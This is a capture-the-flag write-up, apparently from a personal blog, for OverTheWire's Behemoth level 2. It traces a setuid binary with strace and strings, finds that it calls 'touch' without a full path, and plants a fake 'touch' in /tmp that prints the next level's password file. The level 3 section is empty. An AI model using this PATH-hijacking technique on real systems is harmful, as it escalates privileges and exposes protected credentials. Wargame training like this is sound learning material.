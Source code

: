 ```yaml
---
layout: post
title: behemoth-writeup-02-03
excerpt: "Writeup for the Behemoth (L02 & L03) wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / behemoth](http://www.overthewire.org/wargames/behemoth/)

## Level 2 ##

This one started off as a bit of a fun one:

``` shell
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '180': Permission denied
^C
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '186': Permission denied
^C
```

A run through `strace` yields more information:

``` shell
behemoth2@behemoth:/behemoth$ strace ./behemoth2
execve("./behemoth2", ["./behemoth2"], [/* 21 vars */]) = 0
[ Process PID=204 runs in 32 bit mode. ]
...
getpid()                                = 204
lstat64("204", 0xffffd5c0)              = -1 ENOENT (No such file or directory)
unlink("204")                           = -1 ENOENT (No such file or directory)
rt_sigaction(SIGINT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigaction(SIGQUIT, {SIG_IGN, [], 0}, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffffd500) = 205
waitpid(205, touch: cannot touch '204': Permission denied
[{WIFEXITED(s) && WEXITSTATUS(s) == 1}], 0) = 205
rt_sigaction(SIGINT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {SIG_DFL, [], 0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=205, si_status=1, si_utime=0, si_stime=0} ---
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({2000, 0}, ^CProcess 204 detached
 <detached ...>
```

We now see where that number comes from - it's the process' PID - and the pause is due to the call to `sleep`. Mmm.

Looking at the binary through `strings`, we see something of interest:

``` shell
behemoth2@behemoth:/behemoth$ strings behemoth2 | egrep -v -e'^(\.|_)'
/lib/ld-linux.so.2
libc.so.6
sprintf
unlink
getpid
system
sleep
GLIBC_2.4
GLIBC_2.0
PTRh
QVhm
cat
D$(
[^_]
touch %d
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4
crtstuff.c
deregister_tm_clones
register_tm_clones
completed.6591
frame_dummy
behemoth2.c
data_start
sleep@@GLIBC_2.0
unlink@@GLIBC_2.0
lstat
getpid@@GLIBC_2.0
system@@GLIBC_2.0
main
sprintf@@GLIBC_2.0
```

And that's the way `touch` is invoked. It's a little sneaky but you'll notice it's not using an absolute path. If this was `/usr/bin/touch` instead there isn't much we could have done. But what will happen is that the program will look for the first available `touch` in `$PATH`.

With this in mind we can create a 'fake' touch that might just output the password file.

``` shell
behemoth2@behemoth:/behemoth$ cd /tmp
behemoth2@behemoth:/tmp$ cat > touch
#!/bin/sh
/bin/cat /etc/behemoth_pass/behemoth3
behemoth2@behemoth:/tmp$ chmod +x /tmp/touch
behemoth2@behemoth:/tmp$ PATH=/tmp:$PATH /behemoth/behemoth2
*** password ***
^C
```

Nice!

PS: I should note I tried a whole bunch of other stuff before deciding to start on a clean slate - it looks straightforward when put that way but it was anything but!

## Level 3 ##

``` shell

```

